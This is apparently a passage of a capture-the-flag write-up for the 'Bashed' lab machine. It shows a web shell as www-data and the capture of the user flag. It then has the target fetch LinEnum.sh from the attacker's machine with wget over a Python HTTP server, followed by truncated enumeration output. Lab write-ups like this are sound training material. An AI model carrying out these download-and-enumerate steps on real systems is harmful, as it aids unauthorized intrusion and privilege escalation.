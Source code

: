 
Hah, so we've now got a web-shell, nice! So, we're in `www-data` as can be expected. We want to try and get ourselves to root now, but first, let's see if we can grab the user flag from here. So, we were able to navigate to the home directory of `Arrexel` who's a user and grab the `user.txt` that's good! Half the box done. There is also another user, `scriptmanager` however navigating to his home directory is no-use as there is nothing there.

## User Exploitation

So, we want to try and figure out how we can get root, in order to do this the first thing I tend to do is run LinEnum.sh against the target, so let's get LinEnum on the box in the same fashion as always. We'll first run `python -m SimpleHTTPServer 8000` on our machine in the directory that is storing LinEnum, then on the target we're going to run `wget http://[ip]:[port]/[file]`. We will save LinEnum.sh into the `/tmp` directory and give it execute permissions with `chmod +x LinEnum.sh`. For the purpose of saving space I've cut out a lot of information.

```
[00;31m#########################################################[00m
[00;31m#[00m [00;33mLocal Linux Enumeration & Privilege Escalation Script[00m [00;31m#[00m
[00;31m#########################################################[00m
[00;33m# www.rebootuser.com[00m
[00;33m# version 0.96[00m

[-] Debug Info
[00;33m[+] Thorough tests = Disabled[00m


[00;33mScan started at:
Sat Jun 1 10:39:09 PDT 2019
[00m

[00;33m### SYSTEM ##############################################[00m
[00;31m[-] Kernel information:[00m
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


[00;31m[-] Kernel information (continued):[00m
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017


[00;31m[-] Specific release information:[00m
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

[00;31m[-] Hostname:[00m
bashed

[00;33m### USER/GROUP ##########################################[00m
[00;31m[-] Current user/group info:[00m
```